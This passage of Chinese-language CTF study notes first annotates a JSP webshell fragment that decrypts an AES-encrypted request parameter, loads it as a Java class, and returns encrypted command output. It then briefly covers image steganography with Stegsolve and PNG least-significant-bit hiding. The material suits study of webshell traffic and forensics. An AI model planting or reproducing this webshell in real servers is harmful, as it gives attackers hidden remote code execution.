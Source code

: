 ```java
    try {
        javax.crypto.Cipher c = javax.crypto.Cipher.getInstance("AES");
        // init初始化Cipher对象c, 指定密钥xc, 使用AES, 1加密2解密
        c.init(m ? 1 : 2, new javax.crypto.spec.SecretKeySpec(xc.getBytes(), "AES"));
        return c.doFinal(s); // 执行加解密操作
    } catch (Exception e) {
        return null;
    }
}
try {
        byte[] data = base64Decode(request.getParameter(pass)); // base64解码pass
        data = x(data, false); // 将data解密
        if (session.getAttribute("payload") == null) {
            // 代码第一次运行，创建自定义类加载器实例，data解析为JAVA类，存储到session的payload中
            session.setAttribute("payload", new X(this.getClass().getClassLoader()).Q(data));
        } else {
            // data存储在http请求的parameters中
            request.setAttribute("parameters", data);
            // 可写入字节数据的输出流
            java.io.ByteArrayOutputStream arrOut = new java.io.ByteArrayOutputStream();
            // 将session中的payload强制转换为Class类型，调用反射方法实例化对象
            Object f = ((Class) session.getAttribute("payload")).newInstance();
            f.equals(arrOut);
            f.equals(pageContext);
            // 获取响应对象的输出流
            response.getWriter().write(md5.substring(0, 16));
            f.toString();
            // 将流中字节数据转换成字节数组AES加密且base64编码后写入HTTP响应量
            response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true)));
            response.getWriter().write(md5.substring(16));
        }
    } catch (Exception e) {
}
```



## 图片隐写

### PDF

若PDF图片中有多图层，可现将PDF转为WORD，然后将图片保存载入**Stegsolve**进行不同图层查看

### LSB隐写

Least Significant Bit, PNG图片

png图片存储中，每个颜色表示有8bit，即256种颜色，一共包含256*256*256=16777216种颜色，人类的眼睛可以区分约1,000万种不同的颜色，剩下无法区分的颜色有6777216
